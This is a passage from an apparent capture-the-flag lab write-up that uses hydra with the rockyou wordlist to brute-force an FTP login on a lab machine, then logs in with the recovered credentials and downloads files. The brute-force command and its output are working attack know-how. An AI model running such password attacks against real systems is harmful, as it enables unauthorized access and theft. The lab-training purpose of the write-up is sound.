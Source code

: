 ### Handling the FTP server

Let's first try out on the `ftp` server, they are usually badly protected. Compared to a `ssh` server which can have some system in place to ban you, like `fail2ban`. We should always start by hitting the weak points. For this I will make use of `hydra` to do an online bruteforce dictionary attack on the `ftp` server.

```commandline
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-03 03:26:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.216.225:21/
[21][ftp] host: 10.10.216.225   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-03 03:28:06
```

So, we have a username (`chris`) and password (`crystal`) to access the `ftp` server. Let's take a look at what we will find there.

```commandlinec
$ ftp $IP
Connected to 10.10.216.225.
220 (vsFTPd 3.0.3)
Name (10.10.216.225:itchy): chris 
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget *
mget To_agentJ.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (3.5681 MB/s)
mget cute-alien.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
226 Transfer complete.
33143 bytes received in 0.06 secs (516.0840 kB/s)
mget cutie.png? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
226 Transfer complete.
34842 bytes received in 0.07 secs (463.6496 kB/s)
ftp> bye
221 Goodbye.
```
